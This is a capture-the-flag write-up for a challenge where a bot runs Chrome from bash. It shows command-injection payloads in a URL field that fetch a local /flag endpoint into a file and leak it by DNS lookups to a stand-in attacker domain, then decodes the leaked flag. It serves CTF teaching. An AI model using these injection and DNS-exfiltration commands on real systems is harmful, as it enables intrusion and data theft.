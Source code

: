 # Even More Flags

## Challenge Description
I heard you like flags, so I launched Chrome with a lot of flags again so you can get your flag!
This time the flag is localhost:1337/flag, and the bot will visit your URL!

## Getting Started
This is a continuation of [so-many-flags](../so-many-flags), with the main differences being it now accepts a url to make chrome browse to, and the flag is now only accessible through the `/flag` endpoint. Note that `/flag` will only send the flag when accessed locally, so we cannot just request a flag.

Let's start out with sending 'https://google.com' and see if we notice anything interesting.

Hmm it looks like they aren't doing anything to change the input before it is passed to bash. Looks like command injection to me.

## Solution
I decided to go with blind command injection over DNS since I had access to Burp Collaborator, though exfil over HTTP should have worked just as well. I was having trouble just requesting the flag and sending it back (not getting dns requests when retrieving it), which made me think it was too long, so I broke up the payload into 3 parts: 1 to store the flag in a file, one to get the first part, and one to get the second part.
```
https://google.com; wget -qO - http://127.0.0.1:1337/flag > /tmp/loot
https://google.com; getent hosts $(cat /tmp/loot | head -c 35 | base32 | tr -d =).attacker-controlled-domain.com
https://google.com; getent hosts $(cat /tmp/loot | tail -c 35 | base32 | tr -d =).attacker-controlled-domain.com
```

## Flag
This resulted in 2 DNS queries with the 2 parts of the flag, base32 encoded
```
root@a0b287753e55:/app# echo I5IE4Q2UIZ5VOSCZL5CDAXZVGBGTGXZQIZPVISBTGUZV6RSMGRDTKXZT | base32 -d ; echo
GPNCTF{WHY_D0_50M3_0F_TH353_FL4G5_3
root@a0b287753e55:/app# echo IQYF6NJQJUZV6MCGL5KEQMZVGNPUMTBUI42V6M2WGNHF6M2YGE2VI7IK | base32 -d; echo
D0_50M3_0F_TH353_FL4G5_3V3N_3X15T}
```